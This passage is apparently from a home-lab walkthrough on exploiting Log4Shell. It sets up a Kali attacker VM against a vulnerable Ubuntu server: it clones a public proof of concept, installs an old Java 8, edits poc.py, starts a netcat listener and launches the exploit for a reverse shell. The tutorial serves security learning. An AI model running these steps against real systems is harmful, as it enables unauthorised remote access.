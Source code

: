 ![](/04-Testing_Ubuntu_server.png){: width="700" height="400" }{: .shadow }
_Figure 4: Testing to see if Ubuntu Server is Up_
### Setting up the Attacker Server(Kali VM):
To start out, let's switch to root:
```bash
sudo su
```
Now we need to download the same POC from GitHub.
```bash
git clone https://github.com/kozmer/log4j-shell-poc.git
```
Next, we need to download the correct Java version to our Kali VM to successfully exploit the vulnerability. To do that, navigate to: https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html

And download one of the earlier version of Java 8: **java-8u20**

To download the java version you will need to create an account with Oracle.  Once you download the Java version, we need to unzip the file and move the **jdk1.8.0_202** file into the `usr/bin/`{: .filepath} directory.

![](/05-Moving_vuln_java_library.png){: width="700" height="400" }{: .shadow }
_Figure 5: Moving Java Library to Folder of Interest_
Now that we have done that, we need to navigate to the **log4j-shell-poc** folder located wherever you unzipped it to.

```bash
cd {path-to-log4j-shell-poc}
```
Next, edit the **poc.py** file stored in that folder. Open the file with 
```bash
gedit poc.py 
```
and change each section that contains `./jdk1.8.2.20/`{: filepath} to `/usr/bin/jdk1.8.0_202/`{: filepath} there should be **3 spots** where this needs to be changed. > 
> Note: if you don’t have gedit installed, Kali will prompt you to install, you can just hit Y to do so.
{: .prompt-info}

![](/06-Poc_py_edit.png){: width="700" height="400" }{: .shadow }
_Figure 6: Editing POC.py file_
If done successfully, your file should look like this:

![](/07-What_edited_poc_file_should_look_like.png){: width="700" height="400" }{: .shadow }
_Figure 7: What POC.py file should look like_
We are now ready to start the attack on the vulnerable Ubuntu server.  First things first, navigate to the Ubuntu machine IP on port 8080 in a browser:

![](/08-Testing_Ubuntu_server.png){: width="700" height="400" }{: .shadow }
_Figure *: Checking to see if we can access Ubuntu server from Kali VM_
Next in a new terminal tab on Kali, start a netcat listening session:
```bash
 nc -lvp 9001
 ```
![](/09-image_log4shell.png){: width="700" height="400" }{: .shadow }
_Figure 9: Starting netcat listener_
Then in the original terminal session(**In the log4j-shell-poc folder**), type:
```bash
python poc.py --user_ip {ip_of_kali_vm} --webport 8000 --lport 9001
```

